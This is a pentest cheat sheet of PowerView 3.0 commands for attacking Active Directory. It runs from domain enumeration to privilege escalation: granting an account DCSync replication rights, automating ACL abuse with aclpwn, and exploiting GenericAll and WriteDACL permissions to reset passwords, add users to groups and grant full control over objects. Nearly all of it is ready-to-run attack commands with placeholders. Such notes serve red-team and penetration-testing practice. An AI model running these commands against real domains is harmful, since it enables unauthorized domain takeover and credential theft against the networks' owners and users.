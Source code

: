 # PowerView 3.0

### Enumeration

Always download PowerView.ps1 from [here](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1) \(the non-dev version will be incompatible with a lot of guides\).

```text
Get-DomainController | Select-Object Forest, Name, OSVersion
Get-ForestDomain
Get-DomainPolicy | Select-Object -ExpandProperty SystemAccess
Get-DomainUser -Identity <user> -Properties DisplayName, MemberOf | Format-List
Get-DomainComputer -Properties DnsHostName | Sort-Object -Property DnsHostName
Get-DomainOU -Properties Name | Sort-Object -Property Name
Get-DomainGroup -Identity 'Domain Admins' | Select-Object -ExpandProperty Member
Get-DomainGroupMember -Identity 'Domain Admins' | Select-Object MemberDistinguishedName
Get-DomainGPO -Properties DisplayName | Sort-Object -Property DisplayName
Get-DomainGPO -ComputerIdentity <computer> -Properties DisplayName | Sort-Object -Property DisplayName
Get-DomainGPOLocalGroup | Select-Object GPODisplayName, GroupName
Find-DomainUserLocation | Select-Object UserName, SessionFromName
Get-NetLocalGroup | Select-Object GroupName
Get-NetLocalGroupMember -GroupName Administrators | Select-Object MemberName, IsGroup, IsDomain
Get-NetLoggedOn
Get-NetSession -ComputerName <computer> | Select-Object CName, UserName
Get-DomainTrust
Get-ObjectAcl -Identity offsec -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_}
```

### DCSync

#### Grant DCSync rights to user

```text
Add-ObjectACL -TargetIdentity "dc=<>,dc=<>,dc=<>" -PrincipalIdentity <user> -Rights DCSync -Verbose
```

#### Check for users allowed to DCSync

```text
Get-ObjectACL -DistinguishedName "dc=<>,dc=<>,dc=<>" -ResolveGUIDs | ? { ($_.ObjectType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')}
```

### Add to the domain object

Requires the correct ACL.

```text
Add-ObjectAcl -TargetDistignuishedName 'DC=<dc>' -PrincipalSamAccountName <user> -Rights All -Verbose
```

This can also be automated via aclpwn:

```bash
aclpwn -f <username> -ft user -t <domain> -tt domain -d <domain> -dp BloodHound -du neo4j --server <dc> -u <username> -sp <sp> -p <password>
```

### Abuse GenericAll

Allows us to do whatever we want with the target object.

Find all Users the current user has GenericAll for:

```text
Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}
```

We can change the users password with `net user <user> <newpassword> /domain`.

Find all Groups the current user has GenericAll for:

```text
Get-DomainGroup | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```

We can add users to the group with `net group <group> <user> /add /domain`.

### Abuse WriteDACL

Allows to add new ACLs \(e.g. GenericAll\).

Find Users we have WriteDACL for:

```text
Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```

Add GenericAll:

```text
Add-DomainObjectAcl -TargetIdentity <targetuser> -PrincipalIdentity <user> -Rights All
```

